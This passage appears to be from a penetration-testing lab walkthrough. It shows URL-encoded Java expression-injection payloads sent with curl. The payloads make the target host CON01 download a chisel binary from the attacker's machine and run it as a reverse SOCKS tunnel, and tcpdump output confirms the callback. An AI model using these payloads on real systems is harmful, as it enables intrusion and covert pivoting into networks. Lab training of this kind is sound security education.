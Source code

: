 Once we download the new binary onto our Kali machine, we'll have to *serve it on the Apache server again* and then do another injection with `wget` to fetch it onto `CON01`:
```bash
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

--2023-10-03 16:33:35--  https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
...
Length: 3494246 (3.3M) [application/octet-stream]
Saving to: 'chisel_1.8.1_linux_amd64.gz'

chisel_1.8.1_linux_am 100%[========================>]   3.33M  9.38MB/s    in 0.4s    

2023-10-03 16:33:37 (9.38 MB/s) - 'chisel_1.8.1_linux_amd64.gz' saved [3494246/3494246]

kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz

kali@kali:~$ sudo cp ./chisel /var/www/html   
[sudo] password for kali:

kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```
## TRY AGAIN
Now that we've swapped the incompatible chisel binary out with the new one on `CON01`, we can try to execute it again with an updated `curl` command:
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```
### Verify
Now, if we check our `tcpdump` command, we should see output that looks like this:
```bash
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
```
